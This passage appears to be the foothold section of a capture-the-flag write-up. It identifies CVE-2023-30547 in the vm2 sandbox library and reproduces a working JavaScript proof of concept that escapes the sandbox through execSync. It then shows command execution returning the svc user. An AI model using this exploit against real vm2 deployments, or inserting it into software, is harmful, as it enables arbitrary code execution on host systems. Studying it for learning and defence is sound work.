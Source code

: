 ## Foothold

Searching the internet, we find the following vulnerability for `vm2` version `3.9.16`. [NIST - CVE-2023-30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547). There is a vulnerability in exception sanitization, allowing attackers to raise an unsanitized host exception inside `handleException()` which can be used to escape the sandbox and run arbitrary code in host context.

We also find this [CVE-2023-30547 - Proof of Concept](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)

```javascript
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```

To achieve remote code execution with this JavaScript we need to change the `touch pwned` to the command we like to execute. For example `id`. Running the code with `id` we will get `svc` user.

`uid=1001(svc) gid=1001(svc) groups=1001(svc)`
